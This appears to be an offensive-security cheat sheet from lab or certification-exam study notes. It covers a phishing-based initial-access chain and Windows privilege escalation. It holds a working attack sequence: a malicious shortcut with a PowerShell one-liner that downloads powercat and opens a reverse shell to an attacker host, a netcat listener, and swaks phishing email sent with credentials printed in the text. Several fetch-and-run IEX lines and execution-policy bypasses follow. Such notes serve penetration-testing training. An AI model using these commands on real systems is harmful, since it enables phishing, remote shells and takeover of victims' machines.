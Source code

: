 ```bash
</searchConnectorDescriptionList>
</libraryDescription>

#still on the windows machine, 1. right click create shortcut, 2. paste the below. 3.  install as shortcut file name, 4.  transfer the resulting shortcut file to Kali 
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"

#on kali
#host powercat for the phishing victim to download and return with reverse shell
cp /usr/share/powershellempire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 8000
# then start netcat listener after running python3 web server
nc -nvlp 4444

#Send phishing email. body.txt is the email body using valid credentials from enumeration Username: john, : dqsTwTpZPn#nL
kali@kali:~/beyond$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body body.txt --header "Subject: Staging Script" --suppress-data -ap
```

# Window Priv Esc
## Tools
1. [winPEAS](https://github.com/carlospolop/priviledge-escalation-awesome-scripts-suite/tree/master/winPEAS)
2. [PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)
   - `IEX(New-Object Net.Webclient).downloadString('http://x.x.x.x:8000/PowerUp.ps1')`
   - `powershell -exec bypass` -> `..\PowerUp.ps1` -> `Invoke-AllChecks`
3. [Seatbelt](https://github.com/GhostPack/Seatbelt)
4. [accesschk.exe](https://github.com/Andross/oscp/raw/main/accesschk.exe)
* Checks user access control rights. This tools can be used to check wheter a user or group has access to files, directorys, services, and registry keys.
* You can supply the tool with different usernames to check for:
`.\accesscheck /accepteula -uvqc username servicename`
**check service permissions (Which users can access and with what level of permissions)**
`.\accesscheck /accepteula -quvw "C:\This\Is\The\Path"`
**check for start stop permission**
`.\accesscheck /accepteula -uvqc servicename`
**Find all weak folder permissions per drive.**
`accesschk.exe -uwdqs Users c:`
`accesschk.exe -uwdqs "Authenticated Users" c:\`
**Find all weak file permissions per drive.**
``accesschk.exe -uwqs Users c:.``
``accesschk.exe -uwqs "Authenticated Users" c:.``

5. [Sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)
- `IEX(New-Object Net.Webclient).downloadString('http://x.x.x.x:8000/Sherlock.ps1')`
- `powershell.exe -nop -exec bypass` -> `PS C:\> Import-Module .Sherlock.ps1` -> `PS C:\> Find-AllVulns`
